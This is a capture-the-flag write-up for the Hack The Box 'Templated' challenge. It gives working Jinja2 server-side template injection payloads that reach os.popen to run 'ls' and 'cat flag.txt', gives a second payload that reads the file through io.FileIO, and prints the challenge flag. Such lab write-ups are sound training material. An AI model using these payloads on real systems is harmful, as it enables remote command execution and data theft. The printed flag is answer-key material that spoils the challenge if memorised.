



# [Templated](https://app.hackthebox.com/challenges/templated)

## Solutions

detected python jinja template in the index page.

### Solution 1

1. detect template engine:
    

2. prepare payload:

    ```http
    GET /{{"abc".__class__.__base__.__subclasses__()[83].__init__.__globals__['sys'].modules['os'].popen("ls").read()}} HTTP/1.1
    ```

    

    - "abc"
    - "abc".\_\_class\_\_: &lt;class 'str'&gt;
    - "abc.\_\_class\_\_.\_\_base\_\_": &lt;class 'object'&gt;
    - bruteforce at the number 83, there are many classes other than 83 that can do this.

3. get flag:

```http
GET /{{"abc".__class__.__base__.__subclasses__()[83].__init__.__globals__['sys'].modules['os'].popen("cat%20flag.txt").read()}} HTTP/1.1
```



### Solution 2

```http
GET /{{"abc".__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]('flag.txt').read()}} HTTP/1.1
```

- "abc"
- "abc".\_\_class\_\_: &lt;class 'str'&gt;
- "abc.\_\_class\_\_.\_\_base\_\_": &lt;class 'object'&gt;
- "abc.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_\[101\]": &lt;class '\_io.\_IOBase'&gt;
- "abc.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_\[101\].\_\_subclasses\_\_()\[0\]": &lt;class '\_io.\_RawIOBase'&gt;
- "abc.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_\[101\].\_\_subclasses\_\_()\[0\].\_\_subclasses\_\_()\[0\]": &lt;class '\_io.FileIO'&gt;

Flag: HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}

## References

- <https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/>
